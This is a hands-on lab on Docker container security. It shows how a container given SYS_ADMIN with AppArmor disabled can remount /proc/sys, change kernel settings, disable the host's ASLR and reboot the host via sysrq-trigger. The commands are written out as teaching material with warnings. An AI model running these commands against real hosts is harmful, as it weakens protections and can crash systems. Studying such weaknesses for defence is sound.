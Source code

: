 ### Unprivileged container, with capabilities and no AppArmor

Now let's try to run a container in an unprivileged mode, but add some capabilities.  

```
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor:unconfined ubuntu
```

As we have seen from the slides, AppArmomr is configured by default and limits the access to certain dangerous paths.
Here an example of what can go wrong when you disable and uninstall AppArmor.  
(This is done temporarely for this container only - needless to say NEVER EVER DO THIS EVER!)

Try now from the container to change its hostname

```
sysctl kernel.hostname=Hacked
```

You should get an error: `sysctl: setting key "kernel.hostname": Read-only file system`

This is Docker that by default rightfully sets the `/proc` virtual filesystem to read-only.  

#### Leveraging the capabilities

Try now to remount the filesystem with RW permissions:

```
mount -o rw,remount /proc/sys
```

(We just need the /proc/sys part to be writable)

and try again:  

```
sysctl kernel.hostname=Hacked
```

Which hostname was changed ? The container one or the host one ?  
Find that out by using the `hostname` command line.  

Why is that ?  
If you recall from the slides there is a namespace called `UTS` which isolates the hostname information.

#### Not everything is namespaced

From the *HOST* check the status of the ASLR via: 

```
cat /proc/sys/kernel/randomize_va_space

0 – No randomization. Everything is static.

2 – Full randomization. In addition to elements listed in the previous point, memory managed through brk() is also randomized.
```

Say you have a zero day exploit, but it works only when ALSR is disabled.  
Since not everything is namespaced and there are some dangerous path mounted in `/proc` we can easily do that, from the container, via  

```
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

Now check it again on the linux host:

```
cat /proc/sys/kernel/randomize_va_space
```

Yep! ASLR is disabled now!

AppArmor is really helping in this regard.  
Once more: DO NOT DISABLE IT EVER.

#### Reboot host

But disabling ASLR is not the only attack one can do, how about rebooting the whole machine ?

```
echo 1 > /proc/sys/kernel/sysrq
```

Now just send the reboot signal....

```
mount -o rw,remount /proc/sysrq-trigger
echo b > /proc/sysrq-trigger
```

